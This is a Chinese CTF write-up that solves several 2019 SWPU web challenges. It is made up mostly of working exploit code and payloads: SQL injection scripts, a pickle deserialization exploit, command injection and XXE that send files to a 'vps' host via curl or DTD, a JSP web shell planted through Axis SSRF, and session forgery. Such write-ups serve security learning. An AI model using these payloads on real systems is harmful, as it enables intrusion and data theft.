


2019 SWPU-ctf Web部分题解WriteUp
easy_web 随便注册个账号登陆后，测试发现留言处的title 字段存在二次注入
有报错和回显，但是报错过滤了extractvalue 和updatexml
于是考虑用union联合注入
这里坑点在于过滤了or 关键字，然后字段有20多个
过滤了or和mysql关键字，所以用sys.schema_auto_increment_columns来注表名
1 title=ad'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/sys.schema_auto_increment_columns),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22&content=1&ac=add
表名ads,users
但是不知道列名，只能用无列名注入的方式，另外还过滤了反引号`，用别名a.2 来代替，payload：
1 title=ad'/**/union/**/select/**/1,(select/**/a.2/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a/**/limit/**/1,1),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,1,'1&content=1&ac=add
第二列内容为flag，那么看看第三列
1 title=ad'/**/union/**/select/**/1,(select/**/a.3/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a/**/limit/**/1,1),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,1,'1&content=1&ac=add
得到一串md5，解密就是flag
python简单题 注册登陆后，源码提示：
存在redis服务，并且标题为：Deserialization
暗示了反序列化，搜索python redis 反序列化
https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html
session存储的是利用python的序列化字符串存在redis 里的，故当我们携带session访问时，就会反序列化读到我们的信息
所以我们可以通过python pickle反序列化攻击session
exp：
1 2 3 4 5 6 7 8 9 10 11 import cPickleimport osclass exp (object) : def __reduce__ (self) : s = """curl vps:8887""" return (os.system, (s,)) e = exp() s = cPickle.dumps(e) print s.replace("\n" ,'\\n' ).replace("\"" ,"\\\"" )
linux环境下python2运行得到序列化字符串payload：
1 cposix\nsystem\np1\n(S'curl vps:8887'\np2\ntRp3\n.
因为session是存储在redis的，而且所以session存储的key就是session:加上cookie中的session值（点之前）
我们先通过redis-cli来连接redis服务器：
1 $ redis-cli -h 114.67.109.247 -p 6379

但是查看session时提示需要认证密码
这里需要弱密码爆破一下，发现是password
找到我们登陆用户的session对应的key
点号之前 ，所以是a1b3f737-69bf-4460-8374-81f7969af430
在redis-cli中验证一下
对应上了我们登陆的用户名
OK，那么开始修改这个key为我们刚才注入的序列化payload：
1 114.67.109.247:6379> set "session:a1b3f737-69bf-4460-8374-81f7969af430" "cposix\nsystem\np1\n(S'curl vps:8887'\np2\ntRp3\n."
然后再次访问这个cookie
成功反序列化执行命令，最后就是把执行的命令替换成题目说明的：curl -d "@/flag" your-ip即可
最后附上总的exp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 import cPickleimport osimport redisclass exp (object) : def __reduce__ (self) : s = """curl -d "@/flag" vps:8887""" return (os.system, (s,)) e = exp() s = cPickle.dumps(e) r = redis.Redis(host='114.67.109.247' , port=6379 , db=0 ,password="password" ) r.set("session:c6835089-814e-4b03-aef8-7c41165ee98a" , s)
easy_python 有个登陆界面，随便输个用户名都能登陆，回显用户名
然后进入/upload路由，提示没有权限
因为有回显用户名，所以一开始测ssti，但是发现不存在
然后发现源码有段注释：
随便访问个404，然后抓包发现响应包头部：
base64解码得到secret_key ：
1 SECRET_KEY:keyqqqwwweee!@#$%^&*
有了secert_key，就能伪造任意session了
首先解密session：
1 2 3 4 5 >>> s = "eyJpZCI6eyIgYiI6Ik1UQXcifSwiaXNfbG9naW4iOnRydWUsInBhc3N3b3JkIjoiMSIsInVzZXJuYW1lIjoiYWRtaW4ifQ.XekLoQ.SbTTt8ISvhNT8GMDjRGK1F2sHF8" >>> rs = session_cookie_manager.FSCM.decode(s, "keyqqqwwweee!@#$%^&*" )>>> rs{u'username' : u'admin' , u'password' : u'1' , u'id' : '100' , u'is_login' : True } >>>
尝试修改id为1：
1 2 3 4 >>> rs[u'id' ]='1' >>> session_cookie_manager.FSCM.encode(SECRET_KEY, str(rs))'eyJpZCI6eyIgYiI6Ik1RPT0ifSwiaXNfbG9naW4iOnRydWUsInBhc3N3b3JkIjoiMSIsInVzZXJuYW1lIjoiYWRtaW4ifQ.XekMig.svugWwZrG31P4_vp8YhmyjCV4nI' >>>
把得到的session替换，进入/upload
得到源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 @app.route('/upload',methods=['GET','POST']) def upload () : if session['id' ] != b'1' : return render_template_string(temp) if request.method=='POST' : m = hashlib.md5() name = session['password' ] name = name+'qweqweqwe' name = name.encode(encoding='utf-8' ) m.update(name) md5_one= m.hexdigest() n = hashlib.md5() ip = request.remote_addr ip = ip.encode(encoding='utf-8' ) n.update(ip) md5_ip = n.hexdigest() f=request.files['file' ] basepath=os.path.dirname(os.path.realpath(__file__)) path = basepath+'/upload/' +md5_ip+'/' +md5_one+'/' +session['username' ]+"/" path_base = basepath+'/upload/' +md5_ip+'/' filename = f.filename pathname = path+filename if "zip" != filename.split('.' )[-1 ]: return 'zip only allowed' if not os.path.exists(path_base): try : os.makedirs(path_base) except Exception as e: return 'error' if not os.path.exists(path): try : os.makedirs(path) except Exception as e: return 'error' if not os.path.exists(pathname): try : f.save(pathname) except Exception as e: return 'error' try : cmd = "unzip -n -d " +path+" " + pathname if cmd.find('|' ) != -1 or cmd.find(';' ) != -1 : waf() return 'error' os.system(cmd) except Exception as e: return 'error' unzip_file = zipfile.ZipFile(pathname,'r' ) unzip_filename = unzip_file.namelist()[0 ] if session['is_login' ] != True : return 'not login' try : if unzip_filename.find('/' ) != -1 : shutil.rmtree(path_base) os.mkdir(path_base) return 'error' image = open(path+unzip_filename, "rb" ).read() resp = make_response(image) resp.headers['Content-Type' ] = 'image/png' return resp except Exception as e: shutil.rmtree(path_base) os.mkdir(path_base) return 'error' return render_template('upload.html' ) @app.route('/showflag') def showflag () : if True == False : image = open(os.path.join('./flag/flag.jpg' ), "rb" ).read() resp = make_response(image) resp.headers['Content-Type' ] = 'image/png' return resp else : return "can't give you"
程序大致流程是，上传zip包，解压缩，然后/showflag中告诉了我们flag的路径：./flag/flag.jpg
感觉是考软链接，但是看到了一个命令执行：
1 2 3 4 5 6 7 8 9 10 f=request.files['file' ] path = basepath+'/upload/' +md5_ip+'/' +md5_one+'/' +session['username' ]+"/" filename = f.filename pathname = path+filename try : cmd = "unzip -n -d " +path+" " + pathname if cmd.find('|' ) != -1 or cmd.find(';' ) != -1 : waf() return 'error' os.system(cmd)
filename和session['username']我们都是可控的，然后参数之间拼接到命令：
1 "unzip -n -d "+path+" "+ pathname
只是过滤了|和;，但是&和#都没有过滤掉，所以可以构造任意命令执行
可控的两个参数中，filename因为是文件名，不能带有/，所以不好注入
于是就把注入点放在session['username']
注册用户名：& curl vps:8888 #，得到session后，同样按上面的方法一样修改id:1然后访问/upload
成功执行curl
那么尝试外带flag文件，注册：& curl vps:8888 -d "@/etc/passwd" #
注册：& curl vps:8888 -d "@./flag/flag.jpg" #
果然，是一个jpg文件，光看内容没有看到flag，估计得把图片显示出来
一开始是想直接弹shell，但是发现能接收，但是没有弹出命令行，很迷
最后想了很久，只能分两步：
第一步把flag.jpg得内容进行base64加密，写到服务器的/tmp/1.txt 下
第二步再通过curl把/tmp/1.txt 内容读出来
首先注册：& base64 ./flag/flag.jpg > /tmp/1.txt #
触发执行后，再注册：
1 & curl vps:8888 -d "@/tmp/1.txt" #
接收后进行解码，保存到本地的jpg：
1 $ cat 1.txt | base64 -d > flag.jpg
flag就在图片中
预期解是软链接：
1 2 ln -s /proc/self/cwd/flag/flag.jpg somnus zip -ry somnus.zip somnus
demo_mvc 打开靶机，有个登陆界面，提交和返回的都是json格式数据
修改用户名为：admin'
服务器出现了报错
加上#注释，报错消失，但是后面测试又发现：admin'||sleep(3)#没有被执行
后面测试发现：存在过滤的关键字，同样会返回202。成功执行，有语法错误，则返回500
测试得到以后过滤关键字：
1 select updatexml extractvalue or and if ascii sleep substr , || &&
利用语法错误abs(-9223372036854775808)，进行盲注，注释符可以用-- -来替代，case when then else end来代替if，截取字符串的话，用mid来代替substr，然后过滤了逗号和or用from来代替
payload：
1 ^(case hex(mid(database() from -1)) when 65 then 1 else abs(-9223372036854775808) end)-- -
exp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 import requestsimport jsonurl = "http://182.92.220.157:11116/index.php?r=Login/Login" database = "" hex_database = "" i = -1 while i > -10 : for j in range(44 ,128 ): j = chr(j) k = j.encode('hex' ) username = "'^(case/**/hex(mid(database()/**/from/**/" +str(i)+"))/**/when/**/" +k+hex_database+"/**/then/**/1/**/else/**/abs(-9223372036854775808)/**/end)-- -" data = { "username" :username, "password" :"1" } data = json.dumps(data) r = requests.post(url,data=data) if "202" in r.text: database = j + database hex_database = k + hex_database print database break i = i - 1
注出数据库名：ctf
因为select，or都被过滤了，只能盲猜列名，但是列名password又不行，所以无奈只能另寻他法
后面测试了堆叠注入 ，没想到还真有
payload：
1 2 ';set @sql=0x73656c65637420736c656570283329;prepare test from @sql;execute test; 0x73656c65637420736c656570283329 = 'select sleep(3);'
成功执行sleep(3)，于是把要执行的语句进行hex编码，进行时间盲注
exp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 import requestsimport jsonimport timeurl = "http://182.92.220.157:11116/index.php?r=Login/Login" database = "" table_name = "flag,user" flag = "AmOL#T.zip" column_name = "username,password" password = "asdfjnia@*jbfdsb!" for i in range(1 ,50 ): for j in range(1 ,128 ): payload = "select if(ascii(substr((select group_concat(password) from user)," +str(i)+",1))=" +str(j)+",sleep(3),0);" payload = payload.encode('hex' ) username = "';set @sql=0x" +payload+";prepare test from @sql;execute test;" data = { "username" :username, "password" :"1" } data = json.dumps(data) starttime = time.time() r = requests.post(url,data=data) if time.time()-starttime > 3 : database = database + chr(j) print database break
注出以下信息：
1 2 3 4 5 database = "ctf" table_name = "flag,user" flag = "AmOL#T.zip" column_name = "username,password,flag" password = "asdfjnia@*jbfdsb!"#admin/asdfjnia@*jbfdsb!
flag.flag中的信息是AmOL#T.zip
访问得到网站源码，开始审计
首先是路由功能文件：Common/fun.php
默认访问的是index.php?r=Login/Index，即LoginContoller.php中的actionIndex方法
检测session的username字段，如果为空，则跳转到userLogin
就是我们刚才注入的登陆页面了
看看过滤的safe方法：
发现一旦有过滤的关键字，自动返回test 用户名
然后把数据库查询出的密码和我们输入的密码比较，相同则登陆成功，返回200，否则返回202，这也就解释了为什么被过滤还返回202
然后登陆成功后，我们可以来到用户控制器的actionIndex方法
把$_REQUEST变量覆盖后，传入/View/userIndex.php
userIndex.php中，可以看到变量$img_file加上当前文件后传入了imgToBase64函数中，跟进
$img_file文件如果存在，则把内容读取后base64编码拼接到$img_base64
最后通过：echo '<img src="' . $img_base64 . '">';显示到页面中
因为$img_file可以通过$REQUEST变量覆盖 来控制
于是可以路径穿越读取flag文件
我们先注入得到admin的密码：asdfjnia@*jbfdsb!
登陆后，访问：
1 index.php?r=User/Index&img_file=/../flag.php
成功读取flag.php
base64解码得到flag
FFFFF 这题是肝最久的题，真的是java一考就倒，期间跟出题人交流了很多，出题人也给了很多提示。在这里向出题人说一声辛苦了~
首先，题目说明给的链接是：http://ip/ctffffff/backups/
但是，我们直接访问会出现404的情况
访问/ctffffff/
一个富婆通讯录，按f进入坦克23333
摸了一下网站，有两个功能：
导出富婆通讯录：下载下来一个xlsx 后缀的excel 文件
共享我的富婆通讯录：可以上传文件，随意传几个文件，但是只有回显上传失败
因为下载下来的是excel 文件，所以也尝试一下上传excel文件，但是还是失败
另外，直接访问路径/ctffffff/flag ，会出现500的情况
猜测应该是权限不够，然后就卡住了
直到出题人放出的第一个提示：jdk8的xxe有点不一样
可以交互的数据就只有上传点，搜了一下excel xxe ，发现了xxe的关键点：https://xz.aliyun.com/t/3741
因为excel文件包含了很多xml文件，如果我们在其中的xml文件定义一个外部实体，就可能造成xxe攻击
首先，先新建一个空白的excel文件，然后进行解压：
1 2 3 4 5 6 7 8 9 10 11 12 $ mkdir xxe && cd xxe $ unzip ../1.xlsx Archive: ../1.xlsx inflating: xl/drawings/drawing1.xml inflating: xl/worksheets/sheet1.xml inflating: xl/worksheets/_rels/sheet1.xml.rels inflating: xl/sharedStrings.xml inflating: xl/styles.xml inflating: xl/workbook.xml inflating: xl/_rels/workbook.xml.rels inflating: _rels/.rels inflating: [Content_Types].xml
然后找到[Content_Types].xml 这个文件，在其中的2-3行之间插入我们的payload：
1 2 3 4 5 <!DOCTYPE a [ <!ENTITY % dtd SYSTEM "http://106.15.250.162/evil.dtd"> %dtd; ]> <x > </x >
插入后如下图：
然后再次打包成excel文件
接着上传，就能在vps成功监听到数据了：
发现版本是Java/1.8.0_222
既然是无回显的xxe，就尝试利用oob 来读取本地文件
1 2 3 4 5 6 <!DOCTYPE a [ <!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % dtd SYSTEM "http://vps/evil.dtd"> %dtd; %send; ]>
vps上的evil.dtd写入：
1 <!ENTITY % payload "<!ENTITY % send SYSTEM 'http://yourvps:8888/?content=%file;'>"> %payload;
但是尝试发现只有服务器访问vps的evil.dtd的记录，没有执行到send实体的内容。这里也是卡了很久，后面发现原来是java oob中，参数实体定义参数实体时会出现错误的情况，具体我也不是很理解，在这篇文章中有写道：https://www.leadroyal.cn/?p=914
后面改成如下payload：
1 2 3 4 5 6 <!DOCTYPE a [ <!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % dtd SYSTEM "http://vps/evil.dtd"> %dtd; ]> <x>&send;</x>
1 <!ENTITY % payload "<!ENTITY send SYSTEM 'http://yourvps:8888/?content=%file;'>"> %payload;
把send从参数实体改成一般实体后，可以成功在8888端口接收道数据，但是如果利用file协议oob，只能读取到1行 的文件，是没有办法读取到多行 文件的，而java也不存在像php那样的伪协议可以进行base64加密，把文件内容变成只有一行
这里又尝试了很多，比如java特别的netdoc协议来列目录，但是目录下的文件又必须只有一个，否则也没办法通过oob带出
甚至尝试了ftp 协议来尝试读取多行文件
1 2 3 4 5 6 7 8 9 10 11 12 13 FTP -------------- <?xml version="1.0" ?> <!DOCTYPE a [ <!ENTITY % asd SYSTEM "http://x.x.x.x:4444/ext.dtd"> %asd; %c; ]> <a>&rrr;</a> ## External dtd ## <!ENTITY % d SYSTEM "file:///proc/self/environ"> <!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">
但是也失败了，可能因为ftp版本的限制不支持读取多行文件
怎么办呢，这里出题人的意图实际上就是要我们去读取一开始给的/ctffffff/backups/ 目录下的文件，因为这个目录下的文件只有一个，所以我们可以直接列出，通过netdoc，payload：
1 2 3 4 5 6 <!DOCTYPE a [ <!ENTITY % file SYSTEM "netdoc:../webapps/ctffffff/backups/"> <!ENTITY % dtd SYSTEM "http://vps/evil.dtd"> %dtd; ]> <x > &send;</x >
接收到如下信息：
访问后下载压缩包，得到部分源码
在Flag.class 中我们看到
flag的路径在/flag，但是直接访问路由会出现500的情况，权限不够
另外发现了文件夹axis ，查了一下发现存在java axis rce 相关：http://www.lmxspace.com/2019/07/20/Axis-Rce%E5%88%86%E6%9E%90/
思路是增加一个随机服务日志来写shell文件
尝试里面的payload：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 POST /axis_war/services/AdminService?wsdl HTTP/1.0 Content-Type: text/xml; charset=utf-8 Accept: application/soap+xml, application/dime, multipart/related, text/* User-Agent: Axis/1.4 Host: locathost:8080 Cache-Control: no-cache Pragma: no-cache SOAPAction: "" Content-Length: 1061 <?xml version="1.0" encoding="utf-8"?> <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:api="http://127.0.0.1/Integrics/Enswitch/API" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Body> <ns1:deployment xmlns="http://xml.apache.org/axis/wsdd/" xmlns:java="http://xml.apache.org/axis/wsdd/providers/java" xmlns:ns1="http://xml.apache.org/axis/wsdd/"> <ns1:service name="RandomService" provider="java:RPC"> <requestFlow> <handler type="RandomLog"/> </requestFlow> <ns1:parameter name="className" value="java.util.Random"/> <ns1:parameter name="allowedMethods" value="*"/> </ns1:service> <handler name="RandomLog" type="java:org.apache.axis.handlers.LogHandler" > <parameter name="LogHandler.fileName" value="../webapps/ROOT/shell.jsp" /> <parameter name="LogHandler.writeToConsole" value="false" /> </handler> </ns1:deployment> </soapenv:Body> </soapenv:Envelope>
但是直接打会出现401，权限不够的情况
所以，我们就需要考虑通过ssrf的方式来写入payload，参考：https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce
里面提到了Axis api允许我们将POST请求转化成GET请求，通过传入get参数method和param参数，例如我们传入：
1 GET /axis/services/AdminService?method=myMethod¶meter1=test1¶meter2=test2
那么就等效于POST传入：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 POST /axis/services/AdminService ... <?xml version="1.0" encoding="utf-8"?> <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:api="http://127.0.0.1/Integrics/Enswitch/API" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Body> <myMethod> <parameter1>test1</parameter1> <parameter2>test2</parameter2> </myMethod> </soapenv:Body> </soapenv:Envelope>
拼接方式如下：
1 String body = "<" + method + ">" + args + "</" + method + ">";
于是用如下方式拼接成我们的Body部分：
1 GET /axis/services/AdminService?method=!--><myMethod+attr="x"><test>y</test></myMethod
将payload：（注：写入的路径是：../webapps/axis/ ，写入shell文件：somnus.jsp ）
1 !--><ns1:deployment xmlns="http://xml.apache.org/axis/wsdd/" xmlns:java="http://xml.apache.org/axis/wsdd/providers/java" xmlns:ns1="http://xml.apache.org/axis/wsdd/"><ns1:service name="RandomService" provider="java:RPC"><requestFlow><handler type="RandomLog"/></requestFlow><ns1:parameter name="className" value="java.util.Random"/><ns1:parameter name="allowedMethods" value="*"/></ns1:service><handler name="RandomLog" type="java:org.apache.axis.handlers.LogHandler" ><parameter name="LogHandler.fileName" value="../webapps/axis/somnus.jsp" /><parameter name="LogHandler.writeToConsole" value="false" /></handler></ns1:deployment
进行url编码后，通过xxe来进行ssrf：
1 2 3 4 <!DOCTYPE a [ <!ENTITY % dtd SYSTEM "http://127.0.0.1:8080/axis/services/AdminService?method=%21%2d%2d%3e%3c%6e%73%31%3a%64%65%70%6c%6f%79%6d%65%6e%74%20%78%6d%6c%6e%73%3d%22%68%74%74%70%3a%2f%2f%78%6d%6c%2e%61%70%61%63%68%65%2e%6f%72%67%2f%61%78%69%73%2f%77%73%64%64%2f%22%20%78%6d%6c%6e%73%3a%6a%61%76%61%3d%22%68%74%74%70%3a%2f%2f%78%6d%6c%2e%61%70%61%63%68%65%2e%6f%72%67%2f%61%78%69%73%2f%77%73%64%64%2f%70%72%6f%76%69%64%65%72%73%2f%6a%61%76%61%22%20%78%6d%6c%6e%73%3a%6e%73%31%3d%22%68%74%74%70%3a%2f%2f%78%6d%6c%2e%61%70%61%63%68%65%2e%6f%72%67%2f%61%78%69%73%2f%77%73%64%64%2f%22%3e%3c%6e%73%31%3a%73%65%72%76%69%63%65%20%6e%61%6d%65%3d%22%52%61%6e%64%6f%6d%53%65%72%76%69%63%65%22%20%70%72%6f%76%69%64%65%72%3d%22%6a%61%76%61%3a%52%50%43%22%3e%3c%72%65%71%75%65%73%74%46%6c%6f%77%3e%3c%68%61%6e%64%6c%65%72%20%74%79%70%65%3d%22%52%61%6e%64%6f%6d%4c%6f%67%22%2f%3e%3c%2f%72%65%71%75%65%73%74%46%6c%6f%77%3e%3c%6e%73%31%3a%70%61%72%61%6d%65%74%65%72%20%6e%61%6d%65%3d%22%63%6c%61%73%73%4e%61%6d%65%22%20%76%61%6c%75%65%3d%22%6a%61%76%61%2e%75%74%69%6c%2e%52%61%6e%64%6f%6d%22%2f%3e%3c%6e%73%31%3a%70%61%72%61%6d%65%74%65%72%20%6e%61%6d%65%3d%22%61%6c%6c%6f%77%65%64%4d%65%74%68%6f%64%73%22%20%76%61%6c%75%65%3d%22%2a%22%2f%3e%3c%2f%6e%73%31%3a%73%65%72%76%69%63%65%3e%3c%68%61%6e%64%6c%65%72%20%6e%61%6d%65%3d%22%52%61%6e%64%6f%6d%4c%6f%67%22%20%74%79%70%65%3d%22%6a%61%76%61%3a%6f%72%67%2e%61%70%61%63%68%65%2e%61%78%69%73%2e%68%61%6e%64%6c%65%72%73%2e%4c%6f%67%48%61%6e%64%6c%65%72%22%20%3e%3c%70%61%72%61%6d%65%74%65%72%20%6e%61%6d%65%3d%22%4c%6f%67%48%61%6e%64%6c%65%72%2e%66%69%6c%65%4e%61%6d%65%22%20%76%61%6c%75%65%3d%22%2e%2e%2f%77%65%62%61%70%70%73%2f%61%78%69%73%2f%73%6f%6d%6e%75%73%2e%6a%73%70%22%20%2f%3e%3c%70%61%72%61%6d%65%74%65%72%20%6e%61%6d%65%3d%22%4c%6f%67%48%61%6e%64%6c%65%72%2e%77%72%69%74%65%54%6f%43%6f%6e%73%6f%6c%65%22%20%76%61%6c%75%65%3d%22%66%61%6c%73%65%22%20%2f%3e%3c%2f%68%61%6e%64%6c%65%72%3e%3c%2f%6e%73%31%3a%64%65%70%6c%6f%79%6d%65%6e%74"> %dtd; ]>
同样方法上传后，再发现POST请求给RandomService来写入日志：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 POST /axis/services/RandomService HTTP/1.1 Host: 39.98.64.24:25531 Connection: close Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0 Accept-Language: en-US,en;q=0.5 SOAPAction: something Upgrade-Insecure-Requests: 1 Content-Type: application/xml Accept-Encoding: gzip, deflate Content-Length: 874 <?xml version="1.0" encoding="utf-8"?> <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:api="http://127.0.0.1/Integrics/Enswitch/API" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Body> <api:main soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"> <api:in0><![CDATA[ <%@page import="java.util.*,java.io.*"%><% if (request.getParameter("c") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("c")); DataInputStream dis = new DataInputStream(p.getInputStream()); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); }; p.destroy(); }%> ]]> </api:in0> </api:main> </soapenv:Body> </soapenv:Envelope>
虽然响应500，但是此时已经成功写入了，访问/axis/somnus.jsp
最后执行命令读取flag
出题人不知道 题目说明给了一个wsdl.php
我们可以看到一些wsdl的接口服务
访问index.php：
一个登陆界面
发现index.php有个参数method，后面可以跟上wsdl中接口的名称，但是除了访问index和login，其他都会跳转到login，所以我们必须先登陆
抓包发现有回显sql语句：
测试发现语句的逻辑是：查询有结果，并且passwd字段与输入的密码匹配，则登陆成功
fuzz下，过滤了：
1 union select () regexp like
无报错，无联合查询，无堆叠。那么只能盲注，但是括号的过滤，让我们无法使用一些字符串截取的函数，并且regexp 和like 也被过滤了
但是我们还是可以通过判断符号，例如>来盲注判断，逻辑如下：
比如上图，我们可以构造如下盲注条件：
1 2 3 ' or passwd > '3' => Wrong password => passwd第一位为'3' ' or passwd > '4' => wrong username or password
然后我们直接用burp intruder进行盲注
之后再对密码333333332 的下一位爆破时，发现[a-zA-Z0-9]全都返回Wrong password
把2这为替换为3，对下一位爆破
全都返回*wrong username or password * 则说明2这位代表最后一位，且最后一位正确值应该为3
所以密码passwd=333333333
同样方法再对用户名username盲注，得到username=xiaoc
登陆
然后开始各个接口路由
?method=Get_flag

告诉我们需要admin身份，并且127.0.0.1本地访问才能getflag
很容易想到两个点：（1）cookie身份伪造（2）ssrf
?method=hint：
提示我们了：index.php Service.php interface.php se.php 这些文件
想到了刚才看的有个读取文件的服务：?method=File_read
fuzz一下参数，发现POST参数filename能读到文件
那么依次读取hint中的那几个文件，除了Service.php 不能直接读取，其他都可正常读取
得到源码后开始审计，se.php 中有很明显的反序列化，可以构造POP链，POP链的终点：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 class dd public $name; public $flag; public $b; public function getflag () { session_start(); var_dump($_SESSION); $a = array (reset($_SESSION),$this ->flag); echo call_user_func($this ->b,$a); } }
并且开头：ini_set('session.serialize_handler', 'php');
很眼熟，通过session反序列化SoapClient，call_user_func调用SoapClient进行ssrf ，具体可以参考lctf的bestphp’s revenge 这道题
首先解决身份伪造，index.php开头include('encode.php');，读取encode.php ：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 <?php function en_crypt ($content,$key) $key = md5($key); $h = 0 ; $length = strlen($content); $swpuctf = strlen($key); $varch = '' ; for ($j = 0 ; $j < $length; $j++) { if ($h == $swpuctf) { $h = 0 ; } $varch .= $key{$h}; $h++; } $swpu = '' ; for ($j = 0 ; $j < $length; $j++) { $swpu .= chr(ord($content{$j}) + (ord($varch{$j})) % 256 ); } return base64_encode($swpu); }
给了我们cookie的加密方法，且key在wsdl的文件名中可以找到：keyaaaaaaaasdfsaf.txt
访问得到key：flag{this_is_false_flag}
已知key和密文，自己写一个解密脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 <?php function de_crypt ($swpu,$key) $key = md5($key); $swpu = base64_decode($swpu); $length = strlen($swpu); $h = 0 ; $swpuctf = strlen($key); $varch = "" ; for ($j = 0 ; $j < $length; $j++) { if ($h == $swpuctf) { $h = 0 ; } $varch .= $key{$h}; $h++; } $content = "" ; for ($j = 0 ;$j < $length;$j++) { $content .= chr(ord($swpu{$j}) - ord($varch{$j})); } return $content; } $key = "flag{this_is_false_flag}" ; echo de_crypt("3J6Roahxaw==" ,$key);
运行得到明文：xiaoC:3
那么我们修改明文：admin:1 进行加密，得到密文：xZmdm9NxaQ==
替换cookie进行验证：
成功伪造admin
接下来ssrf，首先考虑如何修改session，通过php的session.upload_progess来填充session数据
具体可以参考：https://www.freebuf.com/vuls/202819.html
我们首先构造SoapClient的序列化payload：
1 2 3 4 5 6 7 8 9 <?php $target = 'http://127.0.0.1/interface.php' ; $headers = array ('X-Forwarded-For:127.0.0.1' , 'Cookie:user=xZmdm9NxaQ==' ); $b = new SoapClient(null ,array ('location' => $target,'user_agent' =>'wupco^^' .join('^^' ,$headers),'uri' => "aaab" )); $aaa = serialize($b); $aaa = str_replace('^^' ,"\r\n" ,$aaa); $aaa = str_replace('&' ,'&' ,$aaa); echo $aaa; ?>
这里的laction设置的是interface.php，如果是index.php?method=get_flag是获取不到信息的。实际上。我们能返回到信息，是因为这边已经实例化了SoapServer 类的原因
我们可以首先看看interface.php的代码：
1 2 3 4 5 6 <?php include ('Service.php' ); $ser = new SoapServer('Service.wsdl' ,array ('soap_version' =>SOAP_1_2)); $ser->setClass('Service' ); $ser->handle(); ?>
使用了SoapServer生成了wsdl 文档，传入类Service来启用接口服务，关于接口服务，测试代码如下：
服务器端server.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <?php class Service public function Get_flag () return "flag{xxx}" ; } } $ser = new SoapServer(null ,array ('uri' =>'sampleA' )); $ser->setClass('Service' ); $ser->handle(); ?>
客户端client.php：
1 2 3 4 5 6 7 <?php $client = new SoapClient(null , array ( 'location' =>'http://127.0.0.1/soap/server.php' , 'uri' =>'sampleA' )); echo $client->Get_flag();
当客户端实例化了SoapClient后，就可以调用到Service类中的任意方法，并通过return得到回显
而如果我们仅仅是通过SoapClient调用不存在的方法触发ssrf，是不会得到回显的，可以本地测一下就知道了，而这里Service类的get_flag方法显然是需要通过回显来得到flag。这就需要利用SoapServer
所以我们通过反序列化SoapClient类，location指向interface.php即服务端，因为服务端的setClass为Service类，而Get_flag方法在Service类中，最后我们通过call_user_func调用SoapClient类的Get_flag方法即调用了Service类的Get_flag方法
构造如下包：
